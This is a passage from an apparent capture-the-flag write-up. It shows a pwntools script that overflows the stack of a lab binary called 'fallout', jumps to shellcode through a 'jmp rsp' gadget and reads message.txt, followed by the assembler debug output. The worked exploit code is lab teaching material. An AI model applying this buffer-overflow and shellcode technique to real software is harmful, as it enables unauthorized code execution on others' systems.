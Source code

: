 ```python

jmp_rsp = asm('jmp rsp')
jmp_rsp = next(elf.search(jmp_rsp))

shellcode = asm(shellcraft.cat('message.txt'))

shellcode += asm(shellcraft.exit())

payload = flat(
    asm('nop') * padding,
    jmp_rsp,
    asm('nop') * 16,
    shellcode
)

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b'>', payload)

# Receive the flag
io.interactive()
```

Let's run our shellcraft code
```shell
pl4int3xt@archlinux ~/D/p/shellcode> python3 shellcraft.py
[+] Starting local process './fallout': pid 86826
[DEBUG] cpp -C -nostdinc -undef -P -I/usr/lib/python3.11/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
    jmp rsp
[DEBUG] /sbin/as -64 -o /tmp/pwn-asm-hxdxjjco/step2 /tmp/pwn-asm-hxdxjjco/step1
[DEBUG] /sbin/objcopy -j .shellcode -Obinary /tmp/pwn-asm-hxdxjjco/step3 /tmp/pwn-asm-hxdxjjco/step4
[DEBUG] cpp -C -nostdinc -undef -P -I/usr/lib/python3.11/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        /* push b'message.txt\x00' */
        push 0x1010101 ^ 0x747874
        xor dword ptr [rsp], 0x1010101
        mov rax, 0x2e6567617373656d
        push rax
        /* call open('rsp', 'O_RDONLY', 'rdx') */
        push 2 /* 2 */
        pop rax
        mov rdi, rsp
        xor esi, esi /* O_RDONLY */
        syscall
```